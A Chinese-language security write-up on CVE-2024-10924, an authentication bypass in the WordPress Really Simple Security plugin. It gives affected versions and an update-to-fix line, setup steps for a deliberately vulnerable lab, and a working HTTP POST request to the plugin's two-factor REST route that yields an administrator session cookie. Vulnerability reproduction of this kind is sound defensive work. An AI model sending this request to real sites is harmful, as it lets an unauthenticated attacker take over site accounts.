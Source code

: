 #  【Exp】- CVE-2024-10924 WordPress插件Really Simple Security认证绕过漏洞   
原创 宬室司阍  埋藏酱油瓶   2024-11-19 03:49  
  
## 【🔔】互联网资料/工具，安全性未知，需要自行研判安全性。  
### 传送  
> https://github.com/m3ssap0/wordpress-really-simple-security-authn-bypass-vulnerable-application?tab=readme-ov-file  
  
## 漏洞描述  
> WordPress的Really Simple Security（免费版、专业版和多站点专业版）插件在版本9.0.0至9.1.1.1中存在身份验证绕过漏洞。这是由于在双因素REST API的“check_login_and_get_user”函数中，对用户检查错误处理不当所导致的。当启用“双重身份验证”设置（默认禁用）时，这使得未经身份验证的攻击者可以登录到网站上的任何现有用户，例如管理员。  
  
## 修复建议  
> 建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
## 影响范围  
> 9.0.0 - 9.1.1.1 Really Simple Security < 9.1.2  
  
## 复现  
### 用法  
- •  
 设置环境的步骤如下：  
  
```
1. Launch./up.sh to start composition.
2.Complete the installation of WordPress here: https://localhost:1337/wp-admin/install.php.
3.Login into WordPress.
4.Go to "Plugins": https://localhost:1337/wp-admin/plugins.php.
5.Click on "Activate" under the "Really Simple Security" plugin. DO NOT UPDATE IT, since we need the vulnerable version.
6.Click on "Cancel" on the popup referring to SSL activation.
7.Go to "Settings">"Login Protection">"Two-Factor Authentication" and,in the "Two-Factor Authentication" section,
8.enable"Enable Two-Factor Authentication".
9.Click the "Save" button.
```  
- •   
该容器将被称为 vuln-wp-really-simple-security.  
  
- • 要拆卸环境，请使用./down.sh命令或./down_and_delete.sh命令来删除图像和数据库卷.  
  
## Exploit  
- •   
要利用该漏洞，类似以下的请求可验证：  
  
```
POST /?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1
Host: localhost:1337
Content-Type: application/json
Content-Length:88
Connection: keep-alive

{
"user_id":1,
"login_nonce":"133333337",
"redirect_to":"/wp-admin/"
}
```  
- • 然后在浏览器中相应地设置返回的会话cookie.  
  
- • user_id必须是目标用户的 ID， login_nonce可以是任何值，因为错误的值不会阻止进程.  
  
## ✨参考链接  
1. 1. https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl  
  
1. 2. https://www.cve.org/CVERecord?id=CVE-2024-10924  
  
1. 3. https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aOiar7mEUNloiaTXNgRacTmqVqfic04SpL9tfvFBd7VhZEzLnict8Xju4IeDQLRIS0Ot0GiaxEtYuqdVlpZwibjBFDpQ/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/aOiar7mEUNlqIeYPL63ftuHYOg5LA6Izamo9VLniaX7pBCa2ATgAoIhOm8DuWwGa17csZQkM3fvZ9vjLCZnI37xA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
